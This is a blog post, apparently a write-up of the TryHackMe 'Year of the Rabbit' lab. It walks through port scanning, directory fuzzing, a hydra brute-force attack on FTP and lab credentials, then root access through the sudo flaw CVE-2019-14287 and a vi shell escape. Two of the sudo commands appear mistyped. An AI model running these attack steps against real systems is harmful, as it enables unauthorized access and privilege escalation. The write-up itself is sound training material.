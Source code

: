 ```yaml
---
date: 2020-05-22 06:14:32
layout: post
title: "YearoftheRabbit"
subtitle: A machine full of rabbit holes.
description: Medium Machine from Tryhackme
image: /writeup/assets/img/yearoftherabbit/year.png
optimized_image:
category: tryhackme
tags: medium,tryhackme
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/yearoftherabbit">Link</a> to the machine on Tryhackme.

 Staring with nmap scan to look for open ports,
 ```bash
$ nmap -T4 -p- -A 10.10.45.92
 Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-16 00:38 IST
Nmap scan report for 10.10.45.92
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.13 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   187.89 ms 10.8.0.1
2   212.33 ms 10.10.45.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.06 seconds
```

There are 3 ports open 21,22,80.
Since ftp port was open tried to login anonymously,but as shown by nmap scan anonymous login was not allowed.

Moving on to the second interseting port , i.e 80.

The homepage of website hosted at port 80 contains default apache2 page.
Tried to search for directories and pages available on the website using ffuf.
```bash
ffuf -w wordlist -u http://10.10.45.92/FUZZ -e .php,.html,.txt,.zip
```
![placeholder](/writeup/assets/img/yearoftherabbit/ffuf.png "ffuf")

This shows that there is a assets directory.
Visiting the directory, I found a style.css file and a video file.
The style.css file pointed me towards **/sup3r_s3cr3t_fl4g.php**
![placeholder](/writeup/assets/img/yearoftherabbit/style.css "style")

Visited http://10.10.45.92/sup3r_s3cr3t_fl4g.php. A popup told me to switch off the javascript. If I do not switch off js then I was redirected to a youtube video.
After switching off the javascript the video that was inside assets is played on the page.

Listening the video there is voice of man's *burp*.This voice is not present in original video at youtube.

Since the man was burping. So I thought to open Burpsuite and see the requests.

Looking at the requests made by browser when visiting /sup3r_s3cr3t_fl4g.php, I found one more page 
![placeholder](/writeup/assets/img/yearoftherabbit/burp.png "burp")

As visible in image the browser is requesting this address,
*http://10.10.45.92/intermediary.php?hidden_directory=/WExYY2Cv-qU*
Visiting the above URL , I was redirected to /sup3r_s3cr3t_fl4g.php.

I removed the hidden_directory parameter from the URL

*http://10.10.45.92/intermediary.php**

Accessing the above URL, this also redirected me.

As the URL contained the hidden_directory=/WExYY2Cv-qU. So I accessed the directory directly.
```URL
http://10.10.45.92/WExYY2Cv-qU
```
This directory contained an Image.
Downloading the image and using strings command on the image to extract any string in the image.
```bash
strings Hot_Babe.png
```
![placeholder](/writeup/assets/img/yearoftherabbit/ftp.png "ftp")

This gave a ftp username as ***ftpuser*** and some passwords.

Now to get the correct password, I used hydra to perform a wordlist attack.
```bash
hydra -l ftpuser -P passwords 10.10.45.92 ftp -V
```
![placeholder](/writeup/assets/img/yearoftherabbit/hydra.png "hydra")

This gave me the correct passsword for the ftpuser.
***ftpuser:5iez1wGXKfPKQ***

Logged in inside ftp using the above credentials.
```bash
ftp 10.10.45.92
```
Found a file named eli's_creds.txt inside the ftp server.

Downloaded the file and opening it presented me with a obfuscated text.
```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is brainfuck language.
Used <a href="https://www.dcode.fr/brainfuck-language">decode.fr></a> website to execute this code written in Brainfuck language.
![placeholder](/writeup/assets/img/yearoftherabbit/brainfuck.png "brainfuck")
This gave the SSH credentials for user eli.

***eli:DSpDiM1wAEwid***

Logging In through SSH , a message was displayed 
![placeholder](/writeup/assets/img/yearoftherabbit/ssh.png "ssh")

This message said something about s3cr3t hiding place.
I though maybe there is some directory named s3cr3t.So , executed this command to look for the directory named s3cr3t.
```bash
find / -name s3cr3t -type d 2>/dev/null
```
This gave a location where this directory was located, */usr/games/s3cr3t*
![placeholder](/writeup/assets/img/yearoftherabbit/secret.png "s3cr3t")

Inside the s3cr3t directory, there was a file named **.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!**

Inside the file found the password for gwendoline user.
Now I can write that in a proper format,

***gwendoline:MniVCQVhQHUNI***

Used the password to switch user.

Got the user flag.

Now to escalate privileges to root. I started with sudo -l which showed a interseting information.
![placeholder](/writeup/assets/img/yearoftherabbit/sudo.png "sudo")

The sudoers file had an entry for gwendline user which said that gwendoline user can run vi command to read user.txt as every other user except root.

But to escalate privileges I needed to run the vi command as root.

Looking for the version of sudo, I found it to be 1.8.10

Looking for any vulnerability in sudo. I found a vulnerablity related to *!root* statement of sudoers file.(***CVE-2019-14287***)

According to the vulnerability if user id "-1" or "4294967295" is used while executing the command that is listed to be not run as root in sudoers file. Then, it would run as root.

In simple language, if I run the command with user id -1 or 4294967295. Then I can run the vi as root.
```bash
sudo -u \#$((ffffffff)) /usr/bin/vi /home/gwendoline/user.txt
```

ffffffff is hexadecimal of 4294967295
This would also work
```bash
sudo -u#-1/usr/bin/vi /home/gwendoline/user.txt
```

This opened the vi with user.txt as root.

Time for GTFOBins

Used the command displayed on GTFOBins, to get the root shell.

```bash
:set shell=/bin/bash
:shell
```

Now I got the root shell.

Got the root flag.
  

